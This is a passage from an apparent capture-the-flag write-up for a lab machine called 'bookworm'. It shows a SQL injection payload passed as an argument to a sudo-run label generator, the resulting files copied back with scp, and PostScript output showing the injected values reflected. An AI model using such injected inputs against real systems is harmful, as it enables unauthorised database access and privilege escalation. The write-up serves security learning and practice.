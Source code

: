 

    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT 1,2,3,4,5,6,7;'
    Fetching order...
    Generating PostScript file...
    Generating PDF (until the printer gets fixed...)
    Documents available in /tmp/tmpr7ejbvakprintgen



I'll `scp` the output to my host:



    oxdf@hacky$ scp -i ~/keys/ed25519_gen neil@bookworm.htb:/tmp/tmpr7ejbvakprintgen/* .                 
    output.pdf             100%   43KB 133.5KB/s   00:00    
    output.ps              100% 1751    15.6KB/s   00:00 



The output I set shows up in the PS file in blocks like this:



    ...[snip]...
    /Courier-bold
    20 selectfont
    50 550 moveto
    (1) show     
                                                                        
    /Courier     
    20 selectfont         
    50 525 moveto
    (2) show
                                                                        
    /Courier     
    20 selectfont
    50 500 moveto
    (3) show

    /Courier
    20 selectfont
    50 475 moveto
    (4) show      
                                                                        
    /Courier    
    20 selectfont 
    50 450 moveto
    (5) show
    ...[snip]...



These show up in the PDF:
